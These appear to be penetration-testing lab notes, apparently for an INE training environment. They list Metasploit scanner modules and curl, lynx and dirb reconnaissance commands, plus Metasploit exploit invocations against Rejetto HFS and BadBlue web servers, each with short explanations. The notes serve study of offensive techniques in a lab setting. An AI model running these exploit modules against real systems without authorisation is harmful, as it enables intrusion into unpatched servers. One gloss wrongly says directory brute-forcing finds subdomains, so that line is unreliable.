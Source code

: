```msfconsole
use auxiliary/scanner/http/brute_dirs
show options
set RHOST <ip-address>
run
```

> This can be used to find sub domains

```msfconsole
use auxiliary/scanner/http/robots_txt
show options
set RHOST <ip-address>
run
```

> Will show the data of `robot.txt`

```Shell
curl http://demo.ine.local/
```

> The `curl http://demo.ine.local/` command sends an HTTP GET request to the specified URL (`http://demo.ine.local/`) and returns the response from the server, which typically includes the HTML content of the webpage.

```Shell
lynx http://demo.ine.local
```

> The `lynx http://demo.ine.local` command uses the Lynx web browser, a text-based browser, to access and display the content of the specified URL (`http://demo.ine.local`) in the terminal.

```Shell
dirb http://<ip-address> /usr/share/metasploit-framework/data/wordlists/directory.txt
```

> The command runs `dirb`, a web content scanner, against the specified IP address using a wordlist from Metasploit (`directory.txt`) to discover hidden directories and files on the target web server.

```msfconsole
use exploit/windows/http/rejetto_hfs_exec 
show options
set RHOST <ip-address>
exploit
```

> This module can be used to exploit rejetto http file server. 

```msfconsole
use exploit/windows/http/badblue_passthru
show options
set RHOST <ip-address>
exploit
```

> This can be used to exploit bad blue service.

#### MYSQL Commands:
